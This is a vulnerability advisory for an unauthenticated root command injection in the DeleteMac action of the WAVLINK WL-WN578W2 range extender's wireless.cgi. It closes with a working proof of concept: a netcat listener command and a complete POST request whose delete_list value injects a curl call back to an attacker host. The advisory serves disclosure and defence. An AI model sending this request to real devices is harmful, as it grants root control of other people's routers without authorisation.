

# WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (wireless.cgi DeleteMac)

PS:


1.  Use physical WAVLINK WL-WN578W2 for testing (QEMU simulation is difficult).

2.  **No authentication required**: No cookie or login credentials needed—exploitable directly.

## Overview

An unauthenticated command injection vulnerability (with potential buffer overflow) exists in the `DeleteMac` action of `/cgi-bin/wireless.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `delete_list` parameter is unsanitized and directly concatenated into system commands, which are executed via the `sub_404850` function (contains unsafe `vsprintf` and `system` calls). Attackers can send POST requests with `page=DeleteMac` to inject arbitrary `root`-level commands—no login required.


## Details


*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/wireless.cgi` (POST method, no login required)

*   **Trigger Condition**: Request parameter `page=DeleteMac`

*   **Vulnerable Parameter**: `delete_list`

*   **Vulnerability Type**: Unauthenticated Command Injection (with Potential Buffer Overflow)

*   **CVE ID**: Pending

*   **Impact**: 1. Execute arbitrary `root` commands (exfiltrate data, plant backdoors) without credentials; 2. Trigger buffer overflow via overly long input (due to `vsprintf` in `sub_404850`).

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description


1.  **No Effective Auth Check**: The `ftext` function’s authentication logic (via `sub_404DBC()`) fails to block unauthenticated requests, allowing direct access to the `DeleteMac` action.

2.  **Unsanitized Command Construction**: In `sub_402E04`, the `delete_list` parameter (extracted via `sub_4053E4`) is directly concatenated into the command string `/etc/lighttpd/www/cgi-bin/del_mac.sh y%s y%s y%s y%s &` via `sprintf`—no filtering of command separators (e.g., `;`, `&&`).

3.  **Unsafe Command Execution (sub\_404850)**: The constructed command is passed to `sub_404850`, which has two critical flaws:

*   Uses `vsprintf(byte_41BC84, a1, va)`: No length limit for the target buffer (`byte_41BC84`), leading to potential buffer overflow if the command exceeds 256 bytes.

*   Appends output redirection (`1>/dev/null 2>&1`) via `snprintf` and executes the command with `system()`, enabling injected commands to run as `root`.




## Proof of Concept (PoC)

### PoC: Inject `curl` via `delete_list`

No login or cookie needed.

#### 1. Start Netcat Listener

On attacker machine (IP: 192.168.10.154):


```
nc -lvnp 1234
```


#### 2. Send Unauthenticated POST Request


```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 120
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/wifi_mesh.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=DeleteMac&delete_list=;curl http://192.168.10.154:1234

```

#### 3. Verify Execution

Netcat receives a request from the device (e.g., 192.168.10.1), confirming successful command injection:


